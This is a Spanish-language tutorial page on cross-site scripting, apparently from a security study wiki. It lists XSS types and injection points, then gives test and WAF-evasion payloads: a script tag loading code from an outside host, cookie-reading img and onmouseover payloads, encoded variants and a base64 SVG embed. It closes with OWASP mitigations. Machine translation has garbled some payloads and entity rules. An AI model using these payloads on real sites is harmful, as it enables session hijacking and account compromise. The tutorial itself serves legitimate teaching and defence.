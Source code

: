 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS Injection

_**Las vulnerabilidades de secuencias de comandos entre sitios (XSS)**_ , que se han convertido en algunas de las vulnerabilidades de aplicaciones web más comunes, se logran mediante los siguientes tipos de ataques:

* XSS reflejado
* XSS almacenado (persistente)
* XSS basado en DOM

La explotación exitosa podría resultar en la instalación o ejecución de código malicioso, compromiso de la cuenta, secuestro de cookies de sesión, revelación o modificación de archivos locales o redirección del sitio.

**NOTA** Los resultados de los ataques XSS son los mismos independientemente del vector.

Normalmente encontrará vulnerabilidades XSS en lo siguiente:

* Campos de búsqueda que hacen eco de una cadena de búsqueda al usuario
* encabezados HTTP
* Campos de entrada que reflejan los datos del usuario
* Mensajes de error que devuelven texto proporcionado por el usuario
* Campos ocultos que pueden incluir datos ingresados ​​por el usuario.
* Aplicaciones (o sitios web) que muestran datos proporcionados por el usuario

El siguiente ejemplo muestra una prueba XSS que se puede realizar desde la barra de direcciones de un navegador:

```
  javascript:alert("Prueba Omar_s_XSS"); javascript:alerta(documento.cookie);
```

El siguiente ejemplo muestra una prueba XSS que se puede realizar en un campo de entrada del usuario en un formulario web:

```
<script>alerta("Prueba XSS")</script>
```

&#x20;

**NOTA** Los atacantes pueden utilizar técnicas de ofuscación en ataques XSS codificando etiquetas o partes maliciosas del script usando Unicode para que el enlace o el contenido HTML quede disfrazado para el usuario final que navega por el sitio.

### XSS Evasion Techniques

Se pueden utilizar numerosas técnicas para evadir las protecciones XSS y los productos de seguridad, como los firewalls de aplicaciones web (WAF). En lugar de enumerar todas las diferentes técnicas de evasión descritas por OWASP, esta sección revisa algunas de las técnicas más populares.

Primero, echemos un vistazo a una inyección de JavaScript XSS que sería detectada por la mayoría de los filtros XSS y soluciones de seguridad:

```
<SCRIPT SRC=http://malicious.h4cker.org/xss.js></SCRIPT>
```

El siguiente ejemplo muestra cómo la etiqueta HTML **img** se puede utilizar de varias maneras para evadir potencialmente los filtros XSS:

```
  <img src="javascript:alert('xss');"> <img src=javascript:alert('xss')> <img src=javascript:alert("XSS")> <img src=javascript:alert ('xs')>
```

También es posible utilizar otras etiquetas HTML maliciosas (como etiquetas), como se demuestra aquí:

```
  <a onmouseover="alert(document.cookie)">Este es un enlace malicioso</a> <a onmouseover=alert(document.cookie)>Este es un enlace malicioso</a>
```

Un atacante también puede utilizar una combinación de referencias de caracteres HTML hexadecimales para evadir potencialmente los filtros XSS, como se demuestra aquí:

```
  <img src=javascript& #x3Aalert('XSS' x29>
```

La codificación US ASCII puede eludir muchos filtros de contenido y también puede usarse como técnica de evasión, pero solo funciona si el sistema transmite en codificación US ASCII o si se configura manualmente. Esta técnica es útil contra WAF. El siguiente ejemplo demuestra el uso de la codificación ASCII de EE. UU. para evadir WAF:

```
¼script¾alerta(¢XSS¢)¼/script¾
```

**El siguiente ejemplo muestra un ejemplo de una técnica de evasión que implica el uso de etiquetas de inserción** HTML para incrustar un archivo de gráficos vectoriales escalables (SVG):

```
  <EMBED SRC=”data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcm cvMjAwMC9zdmciIHhtbG5zOnhsa W5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3 hsaW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaW dodD0iMjAwIiBpZD0ieHNzIj48c2NyaXB0IHR5cGU 9InRleHQvZWNtYXNjcmlwdC I+YWxlcnQoIlhTUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" tipo="image/svg+xml" AllowScriptAccess="always"></EMBED>
```

Mitigaciones de XSS

Las siguientes son reglas generales para prevenir ataques XSS, según OWASP:

* Utilice un sistema de plantillas de escape automático.
* Nunca inserte datos que no sean de confianza, excepto en ubicaciones permitidas.
* Utilice el escape HTML antes de insertar datos que no sean de confianza en el contenido del elemento HTML.
* Utilice el escape de atributos antes de insertar datos que no sean de confianza en atributos comunes de HTML.
* Utilice el escape de JavaScript antes de insertar datos que no sean de confianza en valores de datos de JavaScript.
* Utilice el escape CSS y valide estrictamente antes de insertar datos que no sean de confianza en valores de propiedad de estilo HTML.
* Utilice el escape de URL antes de insertar datos que no sean de confianza en los valores de los parámetros de URL HTML.
* Desinfecte el marcado HTML con una biblioteca como ESAPI para proteger la aplicación subyacente.
* Evite el XSS basado en DOM siguiendo las recomendaciones de OWASP en [_https://cheatsheetseries.owasp.org/cheatsheets/DOM\_based\_XSS\_Prevention\_Cheat\_Sheet.html_ .](https://cheatsheetseries.owasp.org/cheatsheets/DOM\_based\_XSS\_Prevention\_Cheat\_Sheet.html)
* Utilice el indicador de cookies **HTTPOnly** .
* Implementar política de seguridad de contenidos.
* Utilice el encabezado de respuesta **X-XSS-Protection** .

También debe convertir la entrada que no sea de confianza en un formato seguro, donde la entrada se muestra como datos para el usuario. Esto evita que la entrada se ejecute como código en el navegador. Para hacer esto, realice la siguiente codificación de entidad HTML:

* Convertir _**a**_ `**&amp;.` \*\* \_
* Convertir _**<**_ a `**&lt;**.`
* Convertir _**>**_ a `**&gt;.`\*\*
* Convertir a _**\*\***_ `**&quot;.` \_
* Convertir a _**\*\***_ `**&#x27;.` \_
* Convertir _**a**_ `**&#x2F;.` \*\* \_

Las siguientes son mejores prácticas adicionales para prevenir ataques XSS:

* Escapa todos los caracteres (incluidos los espacios pero excluyendo los caracteres alfanuméricos) con la entidad HTML **\&#xHH;** formato (donde **HH** es un valor hexadecimal).
* Utilice únicamente la codificación de URL, no la URL completa ni los fragmentos de ruta de una URL, para codificar los valores de los parámetros.
* Escapa todos los caracteres (excepto los caracteres alfanuméricos), con el formato de escape **\uXXXX Unicode (donde X** es un número entero).
* El escape CSS admite **\XX** y **\XXXXXX** , así que agregue un espacio después del escape CSS o use la cantidad total de escape CSS posible rellenando con ceros el valor.
* Eduque a los usuarios sobre la navegación segura para reducir el riesgo de ser víctimas de ataques XSS.

Los controles XSS ahora están disponibles en los navegadores web modernos.

**NOTA** Uno de los mejores recursos que enumera varias mitigaciones contra vulnerabilidades y ataques XSS es la hoja de trucos de prevención de secuencias de comandos entre sitios de OWASP, disponible en [_https://cheatsheetseries.owasp.org/cheatsheets/Cross\_Site\_Scripting\_Prevention\_Cheat\_Sheet.html_](https://cheatsheetseries.owasp.org/cheatsheets/Cross\_Site\_Scripting\_Prevention\_Cheat\_Sheet.html) .
